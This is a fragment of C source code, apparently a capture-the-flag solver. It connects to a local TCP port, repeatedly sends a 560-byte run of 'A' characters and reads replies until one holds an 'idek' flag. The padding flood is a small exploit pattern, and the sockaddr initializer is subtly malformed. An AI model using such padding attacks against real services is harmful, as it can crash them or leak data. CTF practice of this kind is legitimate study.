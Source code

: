 ```c
	}

	unsigned short port = atoi(argv[1]);
	printf("Port: %hu\n", port);

	int fd = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
	if(fd < 0) {
		perror("socket");
		return EXIT_FAILURE;
	}

	const struct sockaddr_in sin = {
		.sin_family = AF_INET,
		.sin_port   = htons(port),
		.sin_addr   = htonl(INADDR_LOOPBACK),
	};

	if(connect(fd, &sin, sizeof(sin)) < 0) {
		perror("connect");
		return EXIT_FAILURE;
	}

	char buffer[560 + 1];
	memset(buffer, 'A', sizeof(buffer));

	while(1) {
		ssize_t s;

		s = write(fd, buffer, sizeof(buffer) - 1);
		if(sizeof(buffer) - 1 != s)
			printf("write: %X\n", s);

		s = read(fd, buffer, sizeof(buffer));
		if(sizeof(buffer) != s)
			printf("read: %X\n", s);

		if(strstr(buffer, "idek")) {
			puts(buffer);
			return EXIT_SUCCESS;
		}
	}
}
```
